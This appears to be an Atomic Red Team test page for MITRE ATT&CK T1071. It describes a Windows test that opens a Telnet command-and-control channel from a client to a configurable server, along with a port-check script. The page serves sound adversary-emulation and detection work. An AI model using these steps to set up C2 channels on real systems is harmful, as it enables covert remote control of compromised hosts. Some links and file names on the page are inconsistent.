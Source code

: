 # T1071 - Application Layer Protocol
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/)
<blockquote>Adversaries may communicate using OSI application layer protocols to avoid detection/network filtering by blending in with existing traffic. Commands to the remote system, and often the results of those commands, will be embedded within the protocol traffic between the client and server.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Telnet C2](#atomic-test-1---autoit)


<br/>

## Atomic Test #1 - Telnet C2
Establish connection between compromised client to C2 server via Telnet

**Supported Platforms:** Windows


**auto_generated_guid:** 3b0df731-030c-4768-b492-2a3216d90e53




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | C2 server IP or URL | url | localhost |
| server_port | C2 server port | number | 23 |


#### Attack Commands: Run with `powershell`! 


```cmd
.\#{client_path} #{server_ip} --port #{server_port}
```

#### Dependencies Run with `powershell`!:
Start C2 server with telnet_server.exe in src folder. You can either start it on localhost or other IP.

```powershell
.\telnet_server.py server_ip --port port_number
```

##### Description: C2 Server must be reachable.
##### Check Prereq Commands:
```powershell
$connection = Test-NetConnection -ComputerName #{server_ip} -Port #{server_port}

if ($connection.TcpTestSucceeded) {
          Write-Output "Port #{server_port} is open."
          exit 0
} else {
          Write-Output "Port #{server_port} is closed or unreachable."
          exit 1
      }
```


<br/>
<br/>
